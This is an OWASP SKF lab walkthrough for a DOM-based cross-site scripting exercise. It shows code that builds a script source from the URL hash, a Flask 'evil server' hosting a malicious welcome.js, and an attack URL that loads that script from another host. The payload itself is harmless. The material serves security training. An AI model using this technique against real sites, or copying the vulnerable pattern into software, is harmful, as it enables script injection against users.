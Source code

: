 # Cross Site Scripting \(DOM-2\)

## Running the app on Docker

```
$ sudo docker pull blabla1337/owasp-skf-lab:xss-dom-2
```

```
$ sudo docker run -ti -p 127.0.0.1:5000:5000 blabla1337/owasp-skf-lab:xss-dom-2
```

{% hint style="success" %}
Now that the app is running let's go hacking!
{% endhint %}

## Reconnaissance

#### Step 1

The application shows no input field or anything else we can interact with. Let's inspect the source code.

![](https://raw.githubusercontent.com/blabla1337/skf-labs/master/.gitbook/assets/python/XSS-DOM-2/1.png)

Inspecting the source code of the application.

![](https://raw.githubusercontent.com/blabla1337/skf-labs/master/.gitbook/assets/python/XSS-DOM-2/2.png)

```javascript
function loadWelcomeMessage() {
  setTimeout(function () {
    endpoint = location.hash.slice(5);
    var script = document.createElement("script");
    if (endpoint) {
      script.src = endpoint + "/js/welcome.js";
    } else {
      script.src = "/js/welcome.js";
    }
    document.head.appendChild(script);
  }, 2000);
}
```

We notice the application imports javascript files into the application using this function.

```javascript
endpoint = location.hash.slice(5);
```

Declaring endpoint variable which takes the url, whatever is after the hash(#) and using slice to remove the first 4 characters after that. If the endpoint exists it will load the js file from there.

![](https://raw.githubusercontent.com/blabla1337/skf-labs/master/.gitbook/assets/python/XSS-DOM-2/3.png)

## Exploitation

We can start building our malicious server and server the application with our malicious js file.

```python
from flask import Flask

app = Flask(__name__, static_url_path='/static', static_folder='static')
app.config['DEBUG'] = True

@app.route("/<path:path>")
def static_file(path):
    return app.send_static_file(path)

if __name__ == "__main__":
    app.run(host='0.0.0.0', port=1337)

```

Save the snippet above to &gt; evil_server.py and run the commands below to install some dependencies.
Of course you can also run your app on whatever service you want it does not have to be python flask.

```text
$ pip3 install flask
```

Now we need to create our malicous js file, save the following snippet code into /static/js/welcome.js

```javascript
document.getElementsByClassName("panel-body")[0].innerText = "pwned!";
```

We are ready to start our server:

```text
$ python3 evil_server.py
```

![](https://raw.githubusercontent.com/blabla1337/skf-labs/master/.gitbook/assets/python/XSS-DOM-2/4.png)

Now we can serve our malicious js file to the application

```text
http://0.0.0.0:5000/#xxxxhttp://0.0.0.0:1337
```

![](https://raw.githubusercontent.com/blabla1337/skf-labs/master/.gitbook/assets/python/XSS-DOM-2/5.png)

## Additional sources

Please refer to the OWASP testing guide for a full complete description about cross site scripting!

{% embed url="https://owasp.org/www-community/attacks/XSS-DOM-2/" %}

